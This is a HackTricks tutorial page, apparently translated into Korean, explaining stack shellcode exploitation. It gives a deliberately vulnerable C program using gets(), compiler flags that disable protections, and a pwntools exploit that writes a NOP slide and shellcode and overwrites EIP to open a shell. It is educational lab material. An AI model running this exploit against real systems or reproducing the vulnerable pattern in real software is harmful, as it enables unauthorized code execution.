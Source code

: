 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**스택 셸코드**는 **바이너리 익스플로잇**에서 사용되는 기술로, 공격자가 취약한 프로그램의 스택에 셸코드를 작성한 다음 **명령 포인터 (IP)** 또는 **확장 명령 포인터 (EIP)**를 수정하여 이 셸코드의 위치를 가리키게 하여 실행되도록 하는 방법입니다. 이는 무단 접근을 얻거나 대상 시스템에서 임의의 명령을 실행하기 위해 사용되는 고전적인 방법입니다. 다음은 프로세스의 개요와 간단한 C 예제, 그리고 **pwntools**를 사용하여 해당 익스플로잇을 작성하는 방법입니다.

### C Example: A Vulnerable Program

간단한 취약한 C 프로그램의 예로 시작해 보겠습니다:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
이 프로그램은 `gets()` 함수의 사용으로 인해 버퍼 오버플로우에 취약합니다.

### 컴파일

이 프로그램을 다양한 보호 기능을 비활성화하여 컴파일하려면 (취약한 환경을 시뮬레이션하기 위해) 다음 명령어를 사용할 수 있습니다:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: 스택 보호를 비활성화합니다.
* `-z execstack`: 스택을 실행 가능하게 만들어, 스택에 저장된 shellcode를 실행하는 데 필요합니다.
* `-no-pie`: 위치 독립 실행 파일을 비활성화하여, 우리의 shellcode가 위치할 메모리 주소를 예측하기 쉽게 만듭니다.
* `-m32`: 프로그램을 32비트 실행 파일로 컴파일하여, 익스플로잇 개발의 단순성을 위해 자주 사용됩니다.

### Pwntools를 사용한 Python 익스플로잇

다음은 **pwntools**를 사용하여 **ret2shellcode** 공격을 수행하는 익스플로잇을 Python으로 작성하는 방법입니다:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
이 스크립트는 **NOP 슬라이드**, **쉘코드**로 구성된 페이로드를 생성한 다음, **EIP**를 NOP 슬라이드를 가리키는 주소로 덮어써서 쉘코드가 실행되도록 합니다.

**NOP 슬라이드**(`asm('nop')`)는 정확한 주소에 관계없이 실행이 우리의 쉘코드로 "슬라이드"될 가능성을 높이기 위해 사용됩니다. `p32()` 인수를 버퍼의 시작 주소에 오프셋을 더한 값으로 조정하여 NOP 슬라이드에 도달하도록 합니다.

## 보호 조치

* [**ASLR**](../../common-binary-protections-and-bypasses/aslr/) **는 비활성화되어야** 주소가 실행 간에 신뢰할 수 있도록 하거나 함수가 저장될 주소가 항상 동일하지 않으며, win 함수가 로드된 위치를 파악하기 위해 어떤 leak이 필요합니다.
* [**스택 카나리**](../../common-binary-protections-and-bypasses/stack-canaries/)도 비활성화되어야 하며, 그렇지 않으면 손상된 EIP 반환 주소가 결코 따라지지 않을 것입니다.
* [**NX**](../../common-binary-protections-and-bypasses/no-exec-nx.md) **스택** 보호는 스택 내에서 쉘코드의 실행을 방지합니다. 왜냐하면 해당 영역은 실행 가능하지 않기 때문입니다.

## 기타 예제 및 참조

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64비트, 스택 주소 leak가 있는 ASLR, 쉘코드를 작성하고 점프하기
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32비트, 스택 leak가 있는 ASLR, 쉘코드를 작성하고 점프하기
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32비트, 스택 leak가 있는 ASLR, exit() 호출을 방지하기 위한 비교, 변수에 값을 덮어쓰고 쉘코드를 작성하고 점프하기
* [https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/](https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/)
* arm64, ASLR 없음, 스택을 실행 가능하게 만드는 ROP 가젯 및 스택 내 쉘코드로 점프하기

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
